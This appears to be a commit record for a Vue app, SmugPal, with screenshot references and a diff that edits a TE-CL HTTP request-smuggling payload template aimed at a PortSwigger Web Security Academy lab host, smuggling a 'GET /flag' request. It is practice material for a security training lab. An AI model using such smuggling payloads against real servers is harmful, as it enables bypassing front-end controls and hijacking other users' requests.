

Before and after one commit to kizzx2/SmugPal, a Vue app: page / in a window 1280 px wide. Shown: the top 672 px of the page at 89% size, 1751 px wide, since content can reach past the window. Built offline with nearby package versions, Linux system fonts and the light colour scheme; a web font is replaced by a local one.

Commit message:
TE-CL example from portswigger

```diff
--- a/src/App.vue
+++ b/src/App.vue
@@ -40,21 +40,18 @@ Host: 0ada007003e1c1b78832d43d0020006c.web-security-academy.net
 
 `
 
-const teclTemplate = `GET / HTTP/1.1
+const teclTemplate = `POST / HTTP/1.1
+Host: 0a0d00d40336daa38033173400be001a.web-security-academy.net
 Transfer-Encoding: chunked
 Content-Length: 4
 
 28
 GET /flag HTTP/1.1
-Content-Length: 71
+Content-Length: 75
 
 0
 
 GET / HTTP/1.1
-Content-Length: 5
-Transfer-Encoding: chunked
-
-0
 
 `
 
```
